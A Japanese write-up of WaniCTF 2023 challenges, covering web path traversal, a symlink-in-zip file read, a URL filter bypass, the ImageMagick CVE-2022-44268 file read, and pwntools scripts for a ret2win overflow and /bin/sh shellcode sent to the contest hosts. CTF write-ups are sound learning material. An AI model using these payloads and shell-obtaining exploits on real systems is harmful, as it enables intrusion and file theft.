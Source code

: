 # WaniCTF 2023 Writeup

## 目次

- Web
  - [IndexedDB](#indexeddb)
  - [Extract Service 1](#extract-service-1)
  - [Extract Service 2](#extract-service-2)
  - [screenshot](#screenshot)
  - [certified1](#certified1)
- Pwnable
  - [netcat](#netcat)
  - [only once](#only-once)
  - [ret2win](#ret2win)
  - [shellcode_basic](#shellcode_basic)
- Forensics
  - [Just_mp4](#just_mp4)
  - [whats_happening](#whats_happening)


## IndexedDB

`/`にアクセスすると`/1ndex.html`にリダイレクトされているので、`curl https://indexeddb-web.wanictf.org/`を実行するとIndexedDBにフラグを格納するJSが見える。

## Extract Service 1

`target`パラメータに渡したパスがそのまま`extractTarget`で使えるため、`target`パラメータに`../../../../../../flag`などを設定してPOSTする。

## Extract Service 2

`/flag`へのシンボリックリンクをzipファイルに含めることでフラグを読み込ませることができる。`document.xml`という名前の`/flag`へのシンボリックリンクを`word`ディレクトリの中に入れたzipをPOSTするとフラグが得られる。

## certified1

ImageMagickのバージョンが古く、CVE-2022-44268が使える。https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC を使えばフラグが得られる。適当なtest.pngから`$ pngcrush -text a "profile" "/flag" test.png`でPNGファイルを作り、送信して返ってきた画像から`$ identify -verbose responce.png`で得られる。

## screenshot

URLのバリデーションが`if (!req.query.url.includes("http") || req.query.url.includes("file")) {`となっており、`File:///http/../flag.txt`などにすることで容易に回避できる。

## netcat

netcatで繋ぎ、3回計算問題を解けばフラグがもらえる。私は騙されて100回解く自動化スクリプトを書きました。

## only once

適当に`AAAAAAAAA`のように8文字以上入れるとBoFが起きて`chall`の値が負になる。あとは3回計算問題を解けばシェルが取れる。`cat FLAG`でフラグが得られる。

## ret2win

BoFがあり`win`関数に飛ばせばシェルが取れる。`win`関数のアドレスを`objdump -d ./chall | grep win`などで確認すると`0x401369`にあることがわかる。

```py
from pwn import *


io = remote("ret2win-pwn.wanictf.org", 9003)

print(io.recvuntil(b"your input (max. 48 bytes) > "))
BUFSIZE = 32
win_addr = p64(0x401369)
io.sendline(b"A" * (BUFSIZE + 8) + win_addr)

io.interactive()
```

## shellcode_basic

任意のシェルコードを実行してくれる。x64で`/bin/sh`を実行するシェルコードをググる。https://github.com/yyanyi213/pwn/blob/master/shellcode にある`\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05`を使わせてもらった。

```py
from pwn import *

#pc = process("./chall")
pc = remote("shell-basic-pwn.wanictf.org", 9004)
shell_code = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"  # PUT YOUR SHELL CODE HERE
pc.sendline(shell_code)
pc.interactive()
```

## Just_mp4

`$ exiftool chall.mp4`をすると`Publisher`にフラグがある。

## whats_happening

`$ file updog`をすると`updog: ISO 9660 CD-ROM filesystem data 'ISO Label'`と出る。マウントしてファイルを確認すると、画像ファイルにフラグが書かれている。